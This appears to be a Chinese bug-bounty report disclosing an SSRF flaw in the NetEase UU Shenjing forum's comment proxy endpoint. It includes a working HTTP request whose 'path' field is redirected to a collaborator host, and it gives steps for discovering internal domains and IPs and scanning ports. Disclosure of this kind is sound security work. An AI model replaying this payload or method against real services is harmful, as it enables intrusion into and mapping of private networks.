







## 漏洞名称

> 网易UU论坛深井Web版评论等功能存在SSRF漏洞

## 漏洞类型
> web漏洞，SSRF

## 危害等级
> 低危

## 漏洞URL
- POST https://sowellwell.com/w/v1/comment/proxy

## 关键数据包

    POST /w/v1/comment/proxy HTTP/2
    Host: sowellwell.com
    Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
    Content-Length: 351
    Identifier: jssdk_sD3SHpGpz24cW77h
    Accept: application/json, text/plain, */*
    Content-Type: application/json;charset=UTF-8
    Sec-Ch-Ua-Platform: "Windows"
    Origin: https://sowellwell.com
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
    Accept-Encoding: gzip, deflate

    {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}

## 漏洞描述
网易UU加速器论坛深井`https://sowellwell.com`的回复点赞等功能存在ssrf漏洞，攻击者能够通过该漏洞遍历内网机器和开放端口。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 登录Web版深井账号，并且点开任意帖子并且发表评论或者对某评论进行点赞操作，同时用burpsuite记录点赞时的请求为POST请求`https://sowellwell.com/w/v1/comment/proxy`

2. 观察到请求体中有一个`path`字段，指向某个相对路径，于是尝试用@符号进行绕过。如下：

        某域名+/like/apps/uu/server/create_like = 完整url
        某域名+@攻击者控制的域名+/like/apps/uu/server/create_like = 攻击者url，而原始的域名则解析为账号字段
3. 将`path`字段修改为burp collaborator进行测试
        
        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
        Content-Length: 351
        Identifier: jssdk_sD3SHpGpz24cW77h
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
        Accept-Encoding: gzip, deflate

        {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}

    collaborator接收到UU服务器发送的请求：
    

4. 获取内网域名

    将地址故意填错，可以观察到返回的错误字段包含内网域名信息，例如`path`字段填`abc`，服务器返回错误域名为：`in.mobile-community.uu.netease.comabc`，那么原始的域名为`in.mobile-community.uu.netease.com`

    

5. 获取域名IP地址
    
    通过dig命令可以查看该域名绑定的内网地址为`10.90.105.177`
    

6. 遍历内网IP

    获取启动的服务ip：
    

    未启动的服务ip：
    

7. 遍历内网开放端口

    以`10.90.105.241`为例，尝试遍历常见端口，发现端口8080开放
    

    
### 漏洞证明
请提供截图或视频

## 漏洞危害
1. 攻击者通过该漏洞遍历内网IP和端口开放信息，造成内网信息泄露
## 修复建议
1. 对潜在的请求`path`字段进行合法性校验

